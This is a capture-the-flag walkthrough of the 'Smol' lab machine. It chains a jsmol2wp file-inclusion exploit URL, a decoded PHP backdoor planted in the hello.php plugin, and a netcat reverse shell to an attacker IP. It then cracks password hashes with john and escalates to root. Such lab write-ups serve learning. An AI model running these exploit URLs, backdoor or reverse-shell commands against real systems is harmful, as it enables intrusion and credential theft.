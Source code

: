 # Smol

### Smol
Nmap scan shows ports 22 and 80 open. On port 80 I get redirected to `www.smol.thm`. So I add it to the `/etc/hosts` file. This is a wordpress website. 
I launched `wpscan --url http://www.smol.thm --enumerate p,t,u` to enumerate it, and found a plugin called jsmol2wp:<br />
![image](https://github.com/user-attachments/assets/49ed7392-5d04-48e1-b9db-aa415951ae48)<br />
Searching online I discover that this version is vulnerable to file inclusion ([link](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt))<br />
To exploit this vulnerability, just visit `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php` to read the config file. This file contains database configurations, including credentials: <br />
![image](https://github.com/user-attachments/assets/8eaf5f70-e3b2-406a-8c56-c8886ebd84f9)<br />
I'm now logged in as wpuser, which has not admin privileges. Looking around the panel, I found a private post from the admin: <br />
![image](https://github.com/user-attachments/assets/22ed1f9f-d781-4008-8a6c-f2272d9639d3)<br />
Since I don't have admin access, I can't directly access the plugin from the dashboard. But I can use the LFI vulnerability to read it!
I need to know the exact name of the plugin. I found[ this repository](https://github.com/WordPress/hello-dolly) in which it is called `hello.php`. So if I visit `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`<br />
I get the actual source code of the plugin!<br />
![image](https://github.com/user-attachments/assets/b34393ee-887e-4c36-84c8-42150f4780b5)<br />
Can you see the difference? There's an `eval` function inside the plugin that's not in the original source code. This is the decoded string: ` if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } `.
This function gets executed when `admin_notices`, meaning when someone visits the control panel, which is when the plugin hello-dolly is executed. To run this backdoor, I just visit `http://www.smol.thm/wp-admin/?cmd=whoami`:<br />
![image](https://github.com/user-attachments/assets/7b276c05-0699-43d1-b998-7045860f0568)<br />
And I have RCE! I now spawn a reverse shell with `http://www.smol.thm/wp-admin/?cmd=busybo nc 10.11.85.53 9001 -e sh`. <br />
Now it's time to privesc. There are the following users: <br />
![image](https://github.com/user-attachments/assets/5e1b1abd-8003-4028-a0d0-11ff4dcf9e67)<br />
I run `mysql -u wpuser -p` and prompt the password found inside the config file. Inside the wordpress database, there are the hashes for the users!<br />
![image](https://github.com/user-attachments/assets/c0c15a8f-f1a7-4e19-a0d0-4a8b7e5f530e)<br />
So I copy all these hashes inside a file called `hashes.txt` and then run `john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`. I took me a while, about 5/10 minutes, but john was able to crack diego's password!<br />
I use that password to switch to diego's account with `su diego`. After retrieving the userflag, I located a private ssh key inside the home directory of the user `think`. I used it to log into the account. Next, there's a file called `wordpress.old.zip` inside `gege`'s home directory. But I don't have access to it. However gege has no password, so if I try to run `su gege` I can get in just like that.<br />
Now I can access the .zip file, but if I try to unzip it, I get asked for a password. So I trasnfer the .zip file using netcat on my machine and then try to bruteforce the password with `zip2john wordpress.old.zip > hash.txt` and then `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`:<br />
![image](https://github.com/user-attachments/assets/afe60118-95a1-4717-90da-4f4618e3a4e8)<br />
So I unzip the file and read the `wp-config.php` file inside of it: <br />
![image](https://github.com/user-attachments/assets/d4121c54-71ad-434f-8c7d-482efc8e66b8)<br />
I use that password to log into xavi account with `su xavi`. Now if I run `sudo -l`, I get: <br />
![image](https://github.com/user-attachments/assets/49a6c683-fe28-4875-96e9-ab504b5ffeef)<br />
So just run `sudo su` and become root!<br /><br />

Before closing, I really want to know why the user think could access gege's account without password... If I try that for example with the user `diego`, get asked for a password. I had to get an hint from an external write up because I was stuck for a while after becoming `think`. But I really didn't understand this configuration.. So after becoming root, looking at the `/etc/sudoers`:<br />
![image](https://github.com/user-attachments/assets/c78b8d3f-7745-43ff-91d9-250f9b7bc139)<br />
There is no particular configuration that specifies those kind of privileges for the user `think`. However, if I go look at `/etc/pam.d/su`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/a5d9a34f-dd41-495a-a478-2391156ec1e0)<br />
So I did some research: PAM(Pluggable Authentication Modules) is a suite of libraries that allows system administrators to set authentication policies without having to recompile programs that handle authentication. This file `/etc/pam.d/su` controls how the su command behaves. <br />
I can't really understand the specifics of the configuration and I don't have time to dig too much. But at least I've learned that sometimes a user can have a very specific privilege to access another user without password, and that `/etc/pam` contains authentication configuration for programs.
